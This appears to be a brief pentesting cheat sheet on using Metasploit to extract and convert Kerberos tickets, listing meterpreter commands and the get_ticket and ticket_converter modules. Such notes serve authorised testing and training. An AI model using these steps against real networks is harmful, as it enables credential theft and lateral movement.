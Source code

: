# Metasploit

## 01 - Extract Ticket

Check if tickets are present

```
msf > klist

meterpreter > kerberos_ticket_list
```

```
auxiliary/admin/kerberos/get_ticket
```

## 02 - Convert Tickets

```
auxiliary/admin/kerberos/ticket_converter
```